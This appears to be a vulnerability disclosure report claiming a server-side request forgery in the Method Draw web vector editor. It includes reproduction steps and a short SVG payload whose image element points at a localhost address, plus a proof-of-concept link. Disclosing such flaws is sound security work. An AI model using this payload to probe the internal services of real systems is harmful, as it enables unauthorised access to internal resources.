 # :book: Description


 `Method Draw` is a web based vector drawing application.. This package is vulnerable for `(SSRF)`.

https://github.com/methodofaction/Method-Draw
https://editor.method.ac/
# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/methodofaction/Method-Draw Or use demo https://editor.method.ac/
  1) open payload svg file . Payload used : `rc3.svg`
  ```
  <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden">
  <image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/>
  <path d="M0 150h300v10H0z"/>
  </svg>
  ```

# :telescope: POC
https://drive.google.com/file/d/1pFEfdYStjGGj0wgvN8itpgYH8Al8Q_w5/view?usp=sharing
## 💥 Impact
SSRF
